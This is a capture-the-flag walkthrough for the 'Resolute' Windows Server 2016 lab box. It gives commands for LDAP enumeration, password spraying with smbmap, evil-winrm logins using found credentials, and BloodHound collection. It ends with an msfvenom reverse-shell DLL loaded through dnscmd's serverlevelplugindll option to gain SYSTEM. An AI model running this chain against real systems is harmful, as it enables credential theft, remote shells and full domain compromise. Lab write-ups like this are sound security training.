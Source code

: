 # Resolute

![image](https://user-images.githubusercontent.com/10210108/84849979-87b02280-b024-11ea-81b2-f2a9d8953592.png)

## Overview

Resolute is a Windows Server 2016 box that exposed credentials via ldap which was anonymously accessible. Credentials were reused with other accounts which allowed for logon to the box as melanie via winrm. I came across a PSTranscript file where I found credentials for an account named ryan which was used to log in to the box again with additional privileges. Bloodhound was used to determine that the user was a member of the DnsAdmins group. Being part of this group provided the ability to abuse the dns service by adding a malicious dll that created a reverse shell and provided a shell as 'nt authority\system'

## Enumeration

**Software**

* Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.169 -oN /mnt/data/boxes/resolute/_full_tcp_nmap.txt
```

* 53/tcp - dns
* 88/tcp - Microsoft Windows Kerberos (server time: 2020-03-17 14:51:48Z)
* 135/tcp - Microsoft Windows RPC
* 139/tcp - Microsoft Windows netbios-ssn
* 389/tcp - Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
* 389/udp - Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
* 445/tcp - Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
* 464/tcp - kpasswd5? 
* 593/tcp - Microsoft Windows RPC over HTTP 1.0
* 636/tcp  - tcpwrapped
* 3268/tcp - Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
* 3269/tcp - tcpwrapped
* 5985/tcp - Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 9389/tcp - .NET Message Framing
* 47001/tcp - Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 49664/tcp open  Microsoft Windows RPC
* 49665/tcp open - Microsoft Windows RPC
* 49666/tcp open - Microsoft Windows RPC
* 49667/tcp open - Microsoft Windows RPC
* 49671/tcp open - Microsoft Windows RPC
* 49676/tcp open - Microsoft Windows RPC over HTTP 1.0
* 49677/tcp open - Microsoft Windows RPC
* 49684/tcp open - Microsoft Windows RPC
* 49712/tcp open - Microsoft Windows RPC
* 61319/udp open - tcpwrapped
* 64614/tcp open - unknown

## Steps (user)

I started off by trying a dns zone transfer but was unsuccessful. I also tried browsing the smb shares but was not able gain any useful information. 

Next I moved onto ldap, I used ldapsearch to query all objects and found the text 'Account created. Password set to Welcome123!' in the description field for Marko Novak's account.

```
ldapsearch -x -b "dc=megabank,dc=local" -h 10.10.10.169 
```

![image](https://user-images.githubusercontent.com/10210108/84969497-d32b0500-b0e6-11ea-99ea-ae53a531b683.png)

I ran the command again selecting only samaccountname and saved the results to a file called users.txt. I had to manually pair down the list to only include usernames.

```
ldapsearch -x -b "dc=megabank,dc=local" -h 10.10.10.169 | grep -i samaccountname | awk '{print $2}' > users.txt
```
![image](https://user-images.githubusercontent.com/10210108/84970068-f86c4300-b0e7-11ea-8ec7-5b9f139138b1.png)

I could have used something like Hydra but instead I just created a quick and dirty bash script. It basically tries to authenticate to the server using smbmap, trying each username in users.txt with the Welcome123! password. 

```
for i in `cat users.txt`; do echo "trying user: $i"; smbmap -H 10.10.10.169 -u $i -p 'Welcome123!'; done
```

Once the username melanie was tried, smbmap returned some data indicating that authentication was successful.

![image](https://user-images.githubusercontent.com/10210108/84970555-f060d300-b0e8-11ea-99ad-f85c1b8ccb44.png)

I wasn't able to access any of the smb shares as user melanie but I was able to connect via evil-winrm with melanie:Welcome123!

```
evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!
```
![image](https://user-images.githubusercontent.com/10210108/84970709-3c137c80-b0e9-11ea-982e-d9680a1da2ad.png)

While enumeating the file system I came across an unusual folder on the root of C:\ called PSTranscripts.

![image](https://user-images.githubusercontent.com/10210108/84971270-5732bc00-b0ea-11ea-8f6a-dcc56bae0324.png)

In the file C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt I found what looked like credentials **ryan:Serv3r4Admin4cc123!**

![image](https://user-images.githubusercontent.com/10210108/84971445-c6a8ab80-b0ea-11ea-8cc9-545f9784b927.png)

I logged on as user ryan with the new credentials via evil-winrm. In Ryan's desktop folder I found a file called note.txt with the text "Email to team: - due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute".

![image](https://user-images.githubusercontent.com/10210108/84971545-ff488500-b0ea-11ea-9d4b-230db5edff45.png)

## Steps (root/system)

I used a tool called Bloodhound to get some additional information. First I needed to get [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors),a collector for Bloodhound, on the system to collect the data that would later be imported into Bloodhound. While logged in as the user ryan I transferred SharpHound.exe to the host via smb. I set up an smb server using imapcket's smbserver.py

> Bloodhound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

```
sudo ~/tools/impacket/examples/smbserver.py share `pwd`
```

Using the copy command, SharpHound.exe was copied to the target

```
copy \\10.10.14.21\share\SharpHound.exe
```

And ran 'sharphound -c all' to collect all information

![image](https://user-images.githubusercontent.com/10210108/84972536-0bcddd00-b0ed-11ea-96e7-ac554a7a2512.png)

The zip file was copied back to my machine

```
copy 20200617200004_BloodHound.zip \\10.10.14.21\share\
```

I started neo4j (neo4j console) and then bloodhound

![image](https://user-images.githubusercontent.com/10210108/84972782-96164100-b0ed-11ea-9d08-c9020322e5d9.png)

I then clicked the upload button and selected the zip file. I ran a few of the built in queries to see what it would tell me. It showed that james is a member of contractors which is a member of dnsadmins. I wasn't immediately aware of any vulnerabilities associated with being a member of dnsadmins, however, the name of the box is Resolute so I took that as a hint and did some research.

![image](https://user-images.githubusercontent.com/10210108/84973387-f0fc6800-b0ee-11ea-889b-2e88add90a30.png)

![image](https://user-images.githubusercontent.com/10210108/84973296-c6aaaa80-b0ee-11ea-9f74-7485a53c7731.png)

I found an article called [DNS Admin Privesc in Active Directory (AD)(Windows)](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2) which details a privilege escalation method that involved creating a dll that contains reverse tcp code that can then be injected into the dns.exe process.

The dll was created with msfvenom by specifying the usual reverse shell parameters and formatting it (-f) as a dll.

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=4200 -f dll > pe.dll
```

![image](https://user-images.githubusercontent.com/10210108/84973552-5c463a00-b0ef-11ea-8e81-e0b0e189c803.png)


I created a share using impacket's smbserver.py

```
sudo ~/tools/impacket/examples/smbserver.py share `pwd`
```

Next I started a netcat listener (nc -lvnp 4200) and on the box and ran the [dnccmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) command specifying /config, /serverlevelplugin, and the unc path to the dll file.

* /config - Changes values in the registry for the DNS server and individual zones. This command also modifies the configuration of the specified server. Accepts server-level and zone-level settings.
* /serverlevelplugindll - Specifies the path of a custom plug-in. 

```
dnscmd 10.10.10.169 /config /serverlevelplugindll \\10.10.14.21\share\pe.dll
```

Lastly I restarted the dns service

```
cmd /c "sc stop dns"
cmd /c "sc start dns"
```

And received a callback and shell as 'nt authority/system'

![image](https://user-images.githubusercontent.com/10210108/84973843-0faf2e80-b0f0-11ea-8642-5a1971edea71.png)

